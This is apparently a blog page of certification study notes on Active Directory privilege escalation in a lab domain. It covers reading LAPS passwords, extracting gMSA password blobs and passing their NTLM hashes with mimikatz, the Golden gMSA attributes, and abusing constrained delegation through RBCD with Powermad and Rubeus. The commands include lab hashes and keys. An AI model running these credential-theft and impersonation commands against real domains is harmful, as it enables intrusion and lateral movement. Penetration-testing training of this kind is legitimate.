```yaml
---
title: "2 - AD Privesc"
classes: single
header:  
  teaser: /assets/images/posts/crte/crte-teaser3.jpg
  overlay_image: /assets/images/main/header9.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "LAPS, gMSA and Constrained Deleg"
description: "LAPS, gMSA and Constrained Deleg"
categories:
  - notes
  - crte
tags:
  - intermediate
  - AD
  - Windows
  - privesc 
toc: true
---
```


# AD Privesc

Some content is the same as in CRTP:

[CRTP AD Privilege Escalation](https://johnermac.github.io/notes/crtp/domprivesc/)

# LAPS

LAPS (Local Administrator Password Solution) provides centralized storage of local users passwords in AD with periodic randomizing.

> *…it mitigates the risk of lateral escalation that results when customers have the same administrative local account and password combination on many computers.*

- Storage in clear text, transmission is encrypted (Kerberos).
- Configurable using GPO.
- Access control for reading clear text passwords using ACLs. 
- Only Domain Admins and explicitly allowed users can read the passwords.

![Alt text](/assets/images/posts/crte/1.png){: .align-center}

On a computer, if LAPS is in use, a library AdmPwd.dll can be found in the:
```powershell
C:\Program Files\LAPS\CSE\ directory.
```

**To find users who can read the passwords in clear text machines in OUs**

PowerView:
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```

**To enumerate OUs where LAPS is in use along with users who can read the passwords in clear text**

Using Active Directory module
```powershell
Get-LapsPermissions.ps1
```

Using LAPS module (can be copied across machines):
```powershell
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1
Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```

**Once we compromise the user which has the Rights, use the following to read clear-text passwords**

PowerView:
```powershell
Get-DomainObject -Identity <targetmachine$> | select - ExpandProperty ms-mcs-admpwd
```

Active Directory module:
```powershell
Get-ADComputer -Identity <targetmachine> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
```

LAPS module:
```powershell
Get-AdmPwdPassword -ComputerName <targetmachine>
```


# gMSA

A group Managed Service Account (gMSA) provides automatic password management, SPN management and delegated administration for service accounts across multiple servers.

> Use of gMSA is recommended to protect from Kerberoast type attacks!

- A 256 bytes random password is generated and is rotated every 30 days.
- When an authorized user reads the attribute 'msds-ManagedPassword’ the gMSA password is computed.
- Only explicitly specified principals can read the password blob. 
- Even the **Domain Admins can't read it by default**.

**A gMSA has object class *msDS-GroupManagedServiceAccount*. This can be used to find the accounts**

Using ADModule:
```powershell
Get-ADServiceAccount -Filter *
```

Using PowerView:
```powershell
Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'
```

**The attribute *msDS-GroupMSAMembership** (PrincipalsAllowedToRetrieveManagedPassword) lists the principals that can read the password blob**

Read it using ADModule:
```powershell
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```

**The attribute *msDS-ManagedPassword* stores the password blob in binary form of MSDS-MANAGEDPASSWORD_BLOB**

Once we have compromised a principal that can read the blob. Use ADModule to read and DSInternals to compute NTLM hash:
```powershell
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```

**The *CurrentPassword* attribute in the $decodedpwd contains the clear-text password but cannot be typed!**

Passing the NTLM hash of the gMSA, we get privileges of the gMSA:
```powershell
sekurlsa::pth /user:jumpone /domain:us.techcorp.local /ntlm:0a02c684cc0fa1744195edd1aec43078
```

**We can access the services and machines (server farms) that the account has access to**


# Golden gMSA

**gMSA password is calculated by leveraging the secret stored in KDS root key object**

We need following attributes of the KDS root key to compute the Group Key Envelope (GKE):
```powershell
- cn
- msKds-SecretAgreementParam
- msKds-RootKeyData
- msKds-KDFParam
- msKds-KDFAlgorithmID
- msKds-CreateTime
- msKds-UseStartTime
- msKds-Version
- msKds-DomainID
- msKds-PrivateKeyLength
- msKds-PublicKeyLength
- msKds-SecretAgreementAlgorithmID
```

- Once we compute the GKE for the associated KDS root key we can generate the password offline.
- Only privilege accounts such as Domain Admins, Enterprise Admins or SYSTEM can retrieve the KDS root key.
- Once the KDS root key is compromised we can’t protect the associated gMSAs accounts.
- Golden gMSA can be used to retrieve the information of gMSA account, KDS root key and generate the password offline.



# Contrained Delegation (Kerberos Only)

> It requires an additional forwardable ticket to invoke S4U2Proxy.

- We cannot use S4U2Self as the service doesn’t have TRUSTED_TO_AUTH_FOR_DELEGATION value configured.

We can leverage RBCD to abuse Kerberos Only configuration:

1. Create a new Machine Account
2. Configure RBCD on the machine configured with Constrained Delegation.
3. Obtain a TGS/Service Ticket for the machine configured with Constrained


Delegation by leveraging the newly created Machine Account:
```powershell
Request a new forwardable TGS/Service Ticket by leveraging the ticket created in previous step.
```


Enumerate constrained delegation using ADModule:
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

Since **ms-DS-MachineAccountQuota is set to 10** for all domain users, any domain user can create a new Machine Account and join the same in the current domain.

Create a new Machine Account using Powermad.ps1 script:

[Powermad on GitHub](https://github.com/Kevin-Robertson/Powermad)

```powershell
. C:\AD\Tools\Powermad\Powermad.ps1
New-MachineAccount -MachineAccount studentcompX
```
**We already compromised us-mgmt**

**Configure RBCD** on us-mgmt using us-mgmt$ computer account:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:us-mgmt$ /aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 /impersonateuser:administrator /domain:us.techcorp.local /ptt /nowrap
```
Using ADModule:
```powershell
Set-ADComputer -Identity us-mgmt$ -PrincipalsAllowedToDelegateToAccount studentcompX$ -Verbose
```

**Obtain a TGS/Service Ticket** for us-mgmt (machine configured with Constrained Delegation) by leveraging the newly created Machine Account (studentcompx):
```powershell
C:\AD\Tools\Rubeus.exe hash /password:P@ssword@123
C:\AD\Tools\Rubeus.exe s4u /impersonateuser:administrator /user:studentcompX$ /rc4:D3E5739141450E529B07469904FE8BDC /msdsspn:cifs/us-mgmt.us.techcorp.local /nowrap
```

**Request a new forwardable TGS/Service Ticket by leveraging the ticket created in previous step**
```powershell
C:\AD\Tools\Rubeus.exe s4u /tgs:doIGxjCCBsKgAwIBBaEDAgEWoo... /user:us-mgmt$ /aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 /msdsspn:cifs/us-mssql.us.techcorp.local /altservice:http /nowrap /ptt
```

**Access the us-mssql using WinRM as the Domain Admin**:
```powershell
winrs -r:us-mssql.us.techcorp.local cmd.exe
```
